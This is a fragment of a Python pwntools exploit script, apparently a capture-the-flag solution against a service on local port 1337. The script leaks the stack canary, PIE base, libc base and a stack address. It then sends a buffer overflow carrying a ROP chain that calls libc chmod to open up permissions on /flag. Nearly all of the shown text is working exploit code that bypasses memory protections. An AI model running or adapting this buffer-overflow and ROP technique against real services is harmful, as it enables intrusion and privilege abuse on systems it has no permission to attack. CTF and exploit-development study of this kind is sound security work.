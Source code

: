 ```python
    return environ

def run_chmod(padding, canary, pie_base, libc_base, stack_val):
    pop_rdi_ret = libc_base + libc_pop_rdi_ret
    pop_rsi_ret = libc_base + libc_pop_rsi_ret
    libc_chmod_addr = libc_base + libc_chmod
    flag_addr = stack_val  # TODO: check this
    buf_3 = b'\x41' * padding
    buf_3 += canary
    buf_3 += p64(0x4242424242424242)  # new value for rbp     
    buf_3 += p64(pop_rdi_ret)  # pop rdi; ret
    buf_3 += p64(flag_addr)
    buf_3 += p64(pop_rsi_ret)  # pop rsi; ret
    buf_3 += p64(0xffff)
    buf_3 += p64(libc_chmod_addr)  # chmod call
    buf_3 += b'/flag\x00\x00\x00' * 0x50
    with remote('0.0.0.0', 1337) as p:
        p.send(buf_3)
        time.sleep(0.5)
        p.recvuntil(b'Leaving!')

def main(): 
    padding = 0x18  # TODO: change this
    if False:
        p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
        p0 = process(BINARY)
        time.sleep(2)
        p1 = remote('0.0.0.0', 1337)
        p1.send(b'\x41' * 0x18)
        p0.interactive()
    if True:
        canary = leak_canary(padding)
        pie_base = leak_pie(padding, canary)
        pie_base = int.from_bytes(pie_base, "little") - 0x1b27  # TODO: adapt this
        print(f'canary = {hex(int.from_bytes(canary, "little"))}')
        print(f'pie_base = {hex(pie_base)}')
        assert(pie_base & 0xfff == 0)
        libc_base = leak_libc(padding, canary, pie_base)
        assert(libc_base & 0xfff == 0)
        stack_val = leak_stack(padding, canary, pie_base, libc_base)
        print(f'canary = {hex(int.from_bytes(canary, "little"))}')
        print(f'pie_base = {hex(pie_base)}')
        print(f'libc_base = {hex(libc_base)}') 
        print(f'stack_val = {hex(stack_val)}')
        run_chmod(padding, canary, pie_base, libc_base, stack_val)
        exit()


if __name__ == '__main__':
    main()
```
